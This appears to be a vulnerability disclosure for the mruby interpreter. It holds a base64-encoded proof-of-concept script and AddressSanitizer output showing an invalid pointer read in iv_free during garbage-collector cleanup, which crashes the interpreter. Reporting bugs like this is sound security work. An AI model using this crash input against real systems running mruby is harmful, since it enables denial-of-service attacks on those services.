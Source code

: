 # README
Steps to reproduce
1- Clone repo and build with ASAN using MRUBY_CONFIG=build_config/clang-asan.rb rake 2- Use mruby to execute the poc:

$ echo -ne "My50aW1lc3tlPTAsIiN7KiA9Yz17fQpbeTowLCoqMF0KMH0ifQ==" | base64 -d > poc
$ mruby poc
/home/faraday/mruby/src/variable.c:232:20: runtime error: member access within misaligned address 0x000000000001 for type 'iv_tbl' (aka 'struct iv_tbl'), which requires 8 byte alignment
0x000000000001: note: pointer points here
<memory cannot be printed>
SUMMARY: UndefinedBehaviorSanitizer: undefined-behavior /home/faraday/mruby/src/variable.c:232:20 in 
/home/faraday/mruby/src/variable.c:232:20: runtime error: load of misaligned address 0x000000000009 for type 'mrb_value *' (aka 'struct mrb_value *'), which requires 8 byte alignment
0x000000000009: note: pointer points here
<memory cannot be printed>
SUMMARY: UndefinedBehaviorSanitizer: undefined-behavior /home/faraday/mruby/src/variable.c:232:20 in 
AddressSanitizer:DEADLYSIGNAL
=================================================================
==77626==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000009 (pc 0x0000007e9575 bp 0x62f000017fb8 sp 0x7fff1e800280 T0)
==77626==The signal is caused by a READ memory access.
==77626==Hint: address points to the zero page.
    #0 0x7e9574 in iv_free /home/faraday/mruby/src/variable.c:232:20
    #1 0x7e9574 in mrb_gc_free_iv /home/faraday/mruby/src/variable.c:278:5
    #2 0x5efb1a in obj_free /home/faraday/mruby/src/gc.c:856:5
    #3 0x5e26a5 in free_heap /home/faraday/mruby/src/gc.c:433:9
    #4 0x5e26a5 in mrb_gc_destroy /home/faraday/mruby/src/gc.c:442:3
    #5 0x63e1de in mrb_close /home/faraday/mruby/src/state.c:195:3
    #6 0x4cb74a in main /home/faraday/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c
    #7 0x7fbe060530b2 in __libc_start_main /build/glibc-eX1tMB/glibc-2.31/csu/../csu/libc-start.c:308:16
    #8 0x41f89d in _start (/home/faraday/mruby/build/host/bin/mruby+0x41f89d)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /home/faraday/mruby/src/variable.c:232:20 in iv_free
==77626==ABORTING
Running the same script with a release build (without asan) results in a segfault due to the invalid dereference.

Impact
This vulnerability is capable of making the mruby interpreter crash, thus affecting the availability of the system.